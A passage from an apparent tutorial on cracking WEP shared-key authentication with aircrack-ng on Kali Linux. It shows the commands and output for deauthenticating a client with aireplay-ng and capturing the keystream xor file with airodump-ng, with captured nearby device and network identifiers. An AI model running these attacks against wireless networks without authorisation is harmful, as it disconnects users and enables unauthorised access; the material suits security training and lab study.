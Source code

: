 Deauth the client because the whole ```SKA``` or ```OPN``` auth has to be captured by ```airodump-ng``` (keep running ```airodump-ng``` in the background) . Also make sure the client connects back to the same AP

```sh
root@kali:~# aireplay-ng --deauth 1 -a 84:C9:B2:6D:0C:85 -h BC:9F:EF:69:35:19 wlan0mon
The interface MAC (00:C0:CA:92:3C:89) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether BC:9F:EF:69:35:19
17:42:42  Waiting for beacon frame (BSSID: 84:C9:B2:6D:0C:85) on channel 4
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
17:42:42  Sending DeAuth to broadcast -- BSSID: [84:C9:B2:6D:0C:85]
root@kali:~#
```

```keystream``` and ```xor``` key successfully extracted

```sh
root@kali:~# airodump-ng wlan0mon --channel 4 --essid dlink --write demo

 CH  4 ][ Elapsed: 3 mins ][ 2017-06-05 17:44 ][ 140 bytes keystream: 84:C9:B2:6D:0C:85

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 84:C9:B2:6D:0C:85  -40  50     1274     1610    0   4  11e. WEP  WEP    SKA  dlink

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 (not associated)   78:3A:84:53:22:6B  -41    0 - 1      0       12
 (not associated)   5C:93:A2:A9:09:33  -56    0 - 1     39        8  CBCI-601B-2.4
 (not associated)   64:80:99:D7:8E:03  -62    0 - 1      0        9  ATT016,Kaiser
 (not associated)   60:F1:89:EA:32:DB  -63    0 - 1      0        3
 (not associated)   6C:AD:F8:60:5C:74  -64    0 - 1      0        6  NETGEAR07
 (not associated)   8E:F7:74:50:69:6A  -65    0 - 1      0        4
 (not associated)   EE:74:A4:CD:24:BC  -67    0 - 1      0        2
 (not associated)   FC:DB:B3:1C:29:97  -67    0 - 1      0       13  HOME-5682,The MaTriX,Dgcguest
 (not associated)   24:77:03:C4:36:FC  -71    0 - 1      0        2  Stronghold5
 (not associated)   84:B5:41:4A:25:5C  -62    0 - 1      0        3
 (not associated)   D0:53:49:2E:39:71  -51    0 - 1      0        7
 84:C9:B2:6D:0C:85  F4:0F:24:33:5E:D1  -19   11e-11e     0      876  dlink
 84:C9:B2:6D:0C:85  BC:9F:EF:69:35:19  -38   11e-11      0      696  dlink

root@kali:~# ls -la demo-01*
-rw-r--r-- 1 root root    144 Jun  5 17:42 demo-01-84-C9-B2-6D-0C-85.xor
-rw-r--r-- 1 root root 563645 Jun  5 17:44 demo-01.cap
-rw-r--r-- 1 root root   3374 Jun  5 17:44 demo-01.csv
-rw-r--r-- 1 root root    580 Jun  5 17:44 demo-01.kismet.csv
-rw-r--r-- 1 root root  34783 Jun  5 17:44 demo-01.kismet.netxml
root@kali:~#
```

Perform a fakeauth with the obtained ```xor``` key

Setup ```airodump-ng```
